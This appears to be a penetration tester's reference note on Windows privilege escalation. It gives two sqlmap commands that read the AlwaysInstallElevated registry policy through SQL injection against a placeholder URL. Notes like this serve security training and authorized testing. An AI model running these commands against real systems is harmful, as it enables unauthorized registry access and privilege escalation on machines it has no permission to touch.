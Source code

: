 # Windows

Search Tag(s): #sqlmap #enumeration-and-discovery #privilege-escalation

## Conditions

TODO: For schedule task

- Enumerate [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/03 - Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual/Living off the Land|AlwaysInstallElevated]] for privilege escalation.

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"
```